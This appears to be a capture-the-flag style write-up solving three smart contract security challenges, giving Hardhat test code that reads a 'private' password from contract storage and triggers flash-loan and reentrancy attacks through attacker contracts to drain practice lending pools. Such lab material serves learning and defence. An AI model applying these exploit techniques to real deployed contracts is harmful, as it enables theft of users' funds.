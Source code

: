 # Smart Contract Security Challenge
---
## Challenge 1

### No Privacy

To exploit the AlicesLock contract, you can follow these steps in the no-privacy.js test file:

#### *Steps to Exploit*

- Access Contract Storage: The password is stored in the contract's storage, so you can read it directly.

- Unlock the Contract: Use the unlock function with the password obtained from storage.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
it("Exploit", async function () {
    // Get the storage slot for the password
    const passwordSlot = await ethers.provider.getStorageAt(this.lock.address, 1);

    // Unlock the contract using the password from storage
    await this.lock.connect(bob).unlock(passwordSlot);
});
```

#### *Explanation*
- `ethers.provider.getStorageAt(this.lock.address, 1)`: This reads the password from the second storage slot (index 1) of the AlicesLock contract.

- `this.lock.connect(bob).unlock(passwordSlot)`: Bob uses the retrieved password to call the unlock function.

---

## Challenge 2

### Do Not Trust

To exploit the  Do Trust Lender pool, you can follow these steps in the reenter.js test file:

#### *Steps to Exploit*

- `DoTrustLender.sol` contract implements a flash loan mechanism that allows borrowers to execute arbitrary functions after borrowing tokens. It inherits from `ReentrancyGuard` to prevent reentrancy attacks on its functions.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const DoNotTrustBobFactory = await ethers.getContractFactory(
      "DoNotTrustBob",
      alice
    );
    this.exploit = await DoNotTrustBobFactory.deploy();
    await this.exploit
      .connect(bob)
      .attack(this.pool.address, this.token.address);
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the `CalyptusToken` and `DoTrustLender` contracts. Transfers 1 million CPT tokens to the lending pool.

- **Exploit**: Bob deploys a contract `DoNotTrustBob` that exploits the `flashLoan` function of `DoTrustLender`. The attack involves borrowing all tokens from the pool and executing a function that transfers them to Bob's account.

---

## Challenge 3

### Re-enter

To exploit the  simple lending pool that allows its users to deposit ETH, you can follow these steps in the reenter.js test file:

#### *Steps to Exploit*

- The smart contract `ReenterPool.sol` allows users to deposit ETH, withdraw ETH, and execute flash loans. It has a reentrancy vulnerability in the `withdraw` function.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE */
    const bobFactory = await ethers.getContractFactory("ReentersBob", alice);
    this.bobsContract = await bobFactory.deploy(this.pool.address);
    this.bobsContract.connect(bob).attack();
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the ReenterPool contract with an initial balance of 1000 ETH.

- **Exploit**: Bob deploys a contract ReentersBob that utilizes a reentrancy attack via the withdraw function of ReenterPool. The attack allows Bob's contract to repeatedly withdraw ETH from Alice's pool before updating the balance.

